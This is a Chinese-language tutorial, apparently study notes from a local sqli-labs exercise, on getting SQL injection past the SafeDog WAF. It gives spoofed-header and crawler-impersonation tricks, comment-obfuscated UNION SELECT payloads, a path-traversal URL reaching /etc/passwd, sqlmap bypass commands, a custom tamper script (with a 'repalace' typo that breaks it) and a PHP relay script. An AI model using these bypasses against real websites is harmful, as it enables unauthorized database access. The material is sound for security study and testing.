<font style="color:rgb(38, 38, 38);">							 		</font>**<font style="color:rgb(38, 38, 38);">前言</font>**<font style="color:rgb(38, 38, 38);">  
在攻防实战中，往往需要掌握一些特性，比如服务器、数据库、应用层、WAF等，以便我们更灵活的去构造payload，从而可以和各种WAF进行对抗，甚至绕过安全防御措施进行漏洞利用。  
</font>**<font style="color:rgb(38, 38, 38);">WAF绕过-SQL注入：</font>**<font style="color:rgb(38, 38, 38);">  
■数据  
●大小写  
●加密解密  
●编码解码  
●等价函数  
●特殊符号  
●反序列化  
●注释符混用  
■方式  
●更改提交方式  
●编译  
■其他  
●Fuzz测试  
●数据库特性  
●垃圾数据溢出  
●HTTP参数污染</font>

## <font style="color:rgb(38, 38, 38);">waf绕过之白名单</font>
### **<font style="color:rgb(38, 38, 38);">方式一：IP白名单</font>**
<font style="color:rgb(38, 38, 38);">通过对网站ip地址的伪造，知道对方网站ip地址，那就默认为ip地址为白名单。  
</font><font style="color:rgb(38, 38, 38);">从网络层获取的ip，这种一般伪造不来，如果是获取客户端的ip，这样就饿可能存在伪造ip绕过的情况。  
</font><font style="color:rgb(38, 38, 38);">测试方法：修改http的header来bypass waf  
</font><font style="color:rgb(38, 38, 38);">X-forwarded-for：  
</font><font style="color:rgb(38, 38, 38);">X-remote-IP：  
</font><font style="color:rgb(38, 38, 38);">X-remote-addr：  
</font><font style="color:rgb(38, 38, 38);">X-Real-IP：</font>

### **<font style="color:rgb(38, 38, 38);">方式二：静态资源</font>**
<font style="color:rgb(38, 38, 38);">特定的静态资源后缀请求，常见的静态文件(.js、.jpg、.swf、.css等</font><font style="color:rgb(38, 38, 38);">），类似白名单机制，waf为了检测效率，不去检测这样一些静态文件名后缀的请求。</font><font style="color:rgb(38, 38, 38);">  
</font>[http://192.168.1.19/](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/Less-1/index.php?id=1 </font><font style="color:rgb(38, 38, 38);">  
</font>[http://192.168.1.19/](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/Less-1/index.php/1.js?id=1 </font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(232, 50, 60);">tips</font><font style="color:rgb(38, 38, 38);">:Aspx/php只识别到前面的.aspx/.php，后面基本不识别。</font><font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);"> 	特定的静态资源后缀请求仍然可以绕过（安全狗4.0.2313）</font>

### **<font style="color:rgb(38, 38, 38);">方式三：url白名单</font>**
<font style="color:rgb(38, 38, 38);">     为了防止误拦，部分waf内置默认的白名单列表，如admin/manager/system等管理后台。只要url中存在白名单的字符串，就作为白名单不进行检测。常见的url构造姿势：</font>

```sql
http://127.0.0.1/sql.php/admin/php?id=1
http://127.0.0.1/sql.php?a=/manage/&b=../etc/passwd
http://127.0.0.1/../../../manage/../sql.asp?id=2
```

<font style="color:rgb(38, 38, 38);">waf通过/manage/进行比较，只要url中存在/manage/就作为白名单不进行检测，这样我们可以通过/sql.php?1=manage/&b=../etc/passwd绕过防御规则。</font><font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">新版本的waf依旧会拦截，老版本的才可以</font>

### **<font style="color:rgb(38, 38, 38);">方式四：爬虫白名单（不是注入绕过而是扫描绕过经常用到）</font>**
<font style="color:rgb(38, 38, 38);">伪装成搜索引擎来进行来访问，让waf以为是官方进行目录获取，从而绕过</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">部分waf有提供爬虫白名单的功能，识别爬虫的技术一般有两种：</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">1.根据UserAgent </font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">2.通过行为来判断</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">开启流量访问防护（同一时间访问过于频繁 或对IP进行封禁）</font><font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">网站还是可以正常访问 ，我也不知道为什么没拦  
</font><font style="color:rgb(38, 38, 38);">解决方法：  
</font><font style="color:rgb(38, 38, 38);">1.更改User-Agent：</font>

#### **<font style="color:rgb(38, 38, 38);">数据库特性(补充)</font>**
```sql
%23x%0aunion%23x%0Aselect%201,2,3    
%20/*!44509union*/%23x%0aselect%201,2,3
id=1/**&id=-1%20union%20select%201,2,3%23*/
%20union%20all%23%0a%20select%201,2,3%23
```

<font style="color:rgb(38, 38, 38);">分析下句</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">%20union%20</font><font style="color:rgb(38, 38, 38);background-color:rgb(250, 219, 20);">/*!44509select*/%201,2,3</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">再看如下语句</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">/</font>_<font style="color:rgb(38, 38, 38);">!50001 select </font>_<font style="color:rgb(38, 38, 38);">from test*/;</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">这里的50001表示假如数据库是5.00.01以上版本，该语句会在数据库被推行，但是waf会认识是注释，不会进行拦截</font><font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">绕过了waf（安全狗版本4.0.2313）  
</font><font style="color:rgb(38, 38, 38);">假如是/*select *from users*/;数据库就不会被推行了，被当成真正的注释了</font>

## **<font style="color:rgb(38, 38, 38);">sqlmap绕过waf实例</font>**
`<font style="color:rgb(38, 38, 38);">python sqlmap.py -u "</font>[http://192.168.1.19/](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/less-2/?id=1" --dbs</font>`



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">显示有waf，并且sqlmap提示我们可以使用--tamper（sqlmap自带的模块库来进行绕过）语法为：  
</font><font style="color:rgb(38, 38, 38);">--tamper=xx.py  
</font><font style="color:rgb(38, 38, 38);">但是有些ctf比赛都是自己手写的过滤规则，并不是waf，但是有时候我们也需要自定义temper来实现绕过特定waf  
</font><font style="color:rgb(38, 38, 38);">使用自带模块构造语句：  
</font>`<font style="color:rgb(38, 38, 38);">python sqlmap.py -u "</font>[<font style="color:rgb(38, 38, 38);">http://192.168.1.19/</font>](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/less-2/?id=1" --dbs --tamper=space2commen</font>`<font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">sqlmap提示无注入点，很显然 自带脚本没有绕过waf，</font>

### <font style="color:rgb(38, 38, 38);">自定义编写tamper脚本</font>


<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">随便打开一个，复制部分代码（结构大致相同）自己加些规则，仿写一个godog.py  
</font><font style="color:rgb(38, 38, 38);">tamper脚本大致结构：</font>

```sql
import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload.replace("'","\\'").repalace('"','\\"')
```

<font style="color:rgb(77, 77, 77);">不难看出，一个最小的tamper脚本结构为priority变量定义和dependencies、tamper函数定义。</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(77, 77, 77);">priority定义脚本的优先级，用于有多个tamper脚本的情况。</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(77, 77, 77);">dependencies函数声明该脚本适用/不适用的范围，可以为空。</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(77, 77, 77);">tamper是主要的函数，接受的参数为payload和**kwargs 返回值为替换后的payload。比如这个例子中就把引号替换为了\\'。</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(77, 77, 77);">分析完后，开始手动编写替换规则，绕过waf</font>

```sql
import re
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL
def dependencies():
    pass
def tamper(payload, **kwargs):
    if payload:
        payload=payload.replace("union","%23x%0aunion")
        payload=payload.repalace('select','%23x%0aselect')
    return payload
```

<font style="color:rgb(77, 77, 77);">构造语句：</font><font style="color:rgb(38, 38, 38);">  
</font>`<font style="color:rgb(38, 38, 38);">python sqlmap.py -u "</font>[http://192.168.1.19/](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/less-2/?id=1" --dbs --tamper=godog</font>`<font style="color:rgb(38, 38, 38);">sqlmap还是注入不了，抓数据包查看一下（无论进行什么测试，分析数据包是必备的技巧）  
</font><font style="color:rgb(34, 34, 34);">Sqlmap代理：</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(34, 34, 34);">HTTP(S)代理:</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(34, 34, 34);">参数：</font>`<font style="color:rgb(34, 34, 34);">–proxy、–proxy-cred、–proxy-file、–ignore-proxy</font>`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(34, 34, 34);">使用参数"–proxy"来设置一个HTTP(S)代理，格式是"http(s)://url:port"。若代理需要认证，使用参数"–proxy-cred"来提供认证凭证，格式是"username:password".</font><font style="color:rgb(38, 38, 38);">  
</font>`<font style="color:rgb(38, 38, 38);">python sqlmap.py -u "</font>[http://192.168.1.19/](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/less-2/?id=1" --dbs --tamper=godog -proxy </font>[http://127.0.0.1:8080](http://127.0.0.1:8080/)`<font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">抓包发现User-Agent:太明显了，这不是明摆着告诉waf我就是sqlmap吗，不拦你拦谁？emo</font><font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">修改为1后，成功显示出页面  
</font><font style="color:rgb(38, 38, 38);">不过sqlmap也同样提供修改User-Agent数据头的参数--random-agent随机agent的值  
</font>`<font style="color:rgb(38, 38, 38);">python sqlmap.py -u "</font>[http://192.168.1.19/](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/less-2/?id=1" --dbs --tamper=godog --random-agent</font>`<font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">成功测试出注入，虽然最后没有爆出数据库名，sqlmap提示说数据库版本低于5.0找不到information_schema,但是我目标机数据库是</font><font style="color:rgb(232, 50, 60);">5.5.53</font><font style="color:rgb(38, 38, 38);">，这就不知道是什么回事了，可能是工具的问题吧。</font>

### **<font style="color:rgb(38, 38, 38);">添加白名单</font>**
<font style="color:rgb(38, 38, 38);">开启流量防护后，如果访问频率过高，会被拦截</font><font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">解决方法：  
</font><font style="color:rgb(38, 38, 38);">1添加延时函数</font>`<font style="color:rgb(38, 38, 38);">--delay</font>`<font style="color:rgb(38, 38, 38);">  
</font>`<font style="color:rgb(38, 38, 38);">python sqlmap.py -u "</font>[http://192.168.1.19/](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/less-2/?id=1" --tamper=godog --random-agent --tables --delay=2</font>`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">2使用IP代理池，随机更换（比较麻烦）  
</font><font style="color:rgb(38, 38, 38);">3更改请求头，http白名单，可以改为百度或者更谷歌等，模拟官方收录  
</font><font style="color:rgb(38, 38, 38);">临时更改：  
</font>`<font style="color:rgb(38, 38, 38);"> --user-Agent=" "</font>`<font style="color:rgb(38, 38, 38);">  
</font>`<font style="color:rgb(38, 38, 38);">python sqlmap.py -u "</font>[http://192.168.1.19/](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/less-2/?id=1" --tamper=godog --tables --user-agent='Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0'</font>`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">改为  
</font>`<font style="color:rgb(38, 38, 38);">Mozilla/5.0 (compatible; Baiduspider/2.0; +</font>[http://www.baidu.com/](http://www.baidu.com/)<font style="color:rgb(38, 38, 38);">search/spider.html)</font>`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">4.数据包注入  
</font><font style="color:rgb(38, 38, 38);">如果waf检查的不只是User-Agent：那么就有点麻烦  
</font><font style="color:rgb(38, 38, 38);">使用burp的intrude模块（很麻烦）  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">因为不只是检查的头需要不停的更改，注入的参数也需要不停的更改，所以只能将sqlmap注入的参数，全部获取下来写入本地文件，批量替换。</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">或者数据包注入</font><font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">将头部文件数据包写好</font><font style="color:rgb(38, 38, 38);">  
</font>



<font style="color:rgb(38, 38, 38);">  
</font>`<font style="color:rgb(38, 38, 38);">python sqlmap.py -r "sql.txt" --tamper=godog --proxy=</font>[http://127.0.0.1:8080](http://127.0.0.1:8080/)`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">使用burp抓包查看  
</font>



<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">可以看到数据包已按照我们设置好的headers进行批量注入了</font>

### **<font style="color:rgb(38, 38, 38);">中转脚本注入</font>**
<font style="color:rgb(38, 38, 38);">还有一种注入新姿势，就是利用中转脚本  
</font>`<font style="color:rgb(38, 38, 38);">sqlmap去注入本地的脚本地址 -> 本地搭建脚本(请求数据包自定义编写) -> 远程地址</font>`<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">远程地址：</font>[http://192.168.1.19/](http://192.168.1.19/)<font style="color:rgb(38, 38, 38);">sqli-labs/less-2/?id=x  
</font><font style="color:rgb(38, 38, 38);">本地搭建的脚本：  
</font><font style="color:rgb(38, 38, 38);">//zhong.php</font>

```sql
<?php
$url='http://192.168.1.19/sqli-labs/less-2/?id=';
$payload=$_GET['id'];
$urls=$url.$payload;
$file=file_get_contents($urls);
echo $file;
?>

```

